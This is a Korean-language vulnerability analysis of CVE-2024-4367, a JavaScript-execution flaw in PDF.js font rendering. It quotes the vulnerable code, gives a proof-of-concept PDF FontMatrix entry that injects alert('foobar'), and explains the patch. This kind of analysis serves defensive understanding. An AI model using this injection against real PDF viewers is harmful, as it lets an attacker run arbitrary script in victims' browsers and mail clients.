

## URL

[https://movaxbx.ru/2024/05/20/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js/](https://movaxbx.ru/2024/05/20/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js/)

## Target

- pdfjs-dist(npm) ≤ 4.1.392
- Mozilla Firefox < 126
- Mozilla Firefox < 115.11
- Mozilla Thunderbird < 115.11

## Explain

Mozilla에서 개발 및 관리하는 자바스크립트 기반의 pdf 뷰어인 PDF.js에서 임의의 자바스크립트 코드를 실행할 수 있는 취약점이 발견되었습니다. 

해당 취약점은 pdf의 스크립팅 기능과 무관한 폰트 렌더링 부분에 존재합니다.

```jsx
if (this.isEvalSupported && FeatureTest.isEvalSupported) {
  const jsBuf = [];
  for (const current of cmds) {
    const args = current.args !== undefined ? current.args.join(",") : "";
    jsBuf.push("c.", current.cmd, "(", args, ");\n");
  }
  // eslint-disable-next-line no-new-func
  console.log(jsBuf.join(""));
  return (this.compiledGlyphs[character] = new Function(
    "c",
    "size",
    jsBuf.join("")
  ));
}
```

 PDF.js에서는 폰트 렌더링 과정의 성능 향상 위해 path generator 함수를 위와 같이 `new Function`을 통해 생성하는데 이때 `Funtion` 오브젝트의 body로 사용되는 `jsbuf`에 코드를 삽입하는 것으로 임의의 자바스크립트 코드를 실행할 수 있고 poc에서는 이를 익스플로잇하기 위해 FontMatrix와 transform 커맨드를 이용합니다.

 

아래의 `CompiledFont` 클래스의  `compileGlyph` 메소드는 위에서 사용되는 `cmds`를 생성합니다

```jsx
compileGlyph(code, glyphId) {
    if (!code || code.length === 0 || code[0] === 14) {
      return NOOP;
    }
    let fontMatrix = this.fontMatrix;
    ...
    const cmds = [
      { cmd: "save" },
      { cmd: "transform", args: fontMatrix.slice() },
      { cmd: "scale", args: ["size", "-size"] },
    ];
    this.compileGlyphImpl(code, cmds, glyphId);
    cmds.push({ cmd: "restore" });
    return cmds;
  }
```

이 중에서도 `transform` 커맨드의 args를 살펴보면 `fontMatrix.slice()`가 사용되는 것을 확인할 수 있고 `fontMatrix`의 기본 값은 `[0.001, 0, 0, 0.001, 0, 0]` 이기 때문에 생성되는 `Function`은 아래와 같을 것입니다.

```jsx
Function(c, size)
{
	c.save();
	c.transform(0.001,0,0,0.001,0,0);
	c.scale(size,-size);
	c.moveTo(0,0);
	c.restore();
}
```

`fontMatrix`의 값은 아래와 같이 pdf 파일 내에서 새롭게 정의하여 기본 값을 대체할 수 있고 저장된 값들의 타입 검사를 수행하지 않기 때문에 SQL 또는 Command Injection과 유사한 방법으로 자바스크립트 코드를 삽입하는 것이 가능합니다.

```jsx
1 0 obj
<<
  /Type /Font
  /Subtype /Type1
  /FontDescriptor 2 0 R
  /BaseFont /FooBarFont
  /FontMatrix [1 2 3 4 5 (0\); alert\('foobar')]
>>
endobj
```

이 경우에는 소괄호로 감싼 `(0\); alert\('foobar')`이 자바스크립트 문자열 `0); alert('foobar'`로 변환되어 삽입되고 생성된 `Function` 오브젝트의 코드는 아래와 같습니다

```jsx
	c.save();
	c.transform(1,2,3,4,5,0); alert('foobar');
	c.scale(size,-size);
	c.moveTo(0,0);
	c.restore();
```

해당 취약점의 패치에서는 아래와 같이 기존에 문자열로 처리하던 `transform`, `save` 등의 커맨드를 `FontRenderOps`의 `SAVE`, `TRANSFORM` 등 enum 값으로 대체했고 `cmds` 또한 문자열 배열이 아닌 `Commands` 클래스로 대체했습니다. 또한 커맨드 추가에 사용되는 `add` 메소드에서는 인자의 타입이 숫자인지 검사하는 것을 통해 자바스크립트 코드가 삽입되는 것을 막았습니다.



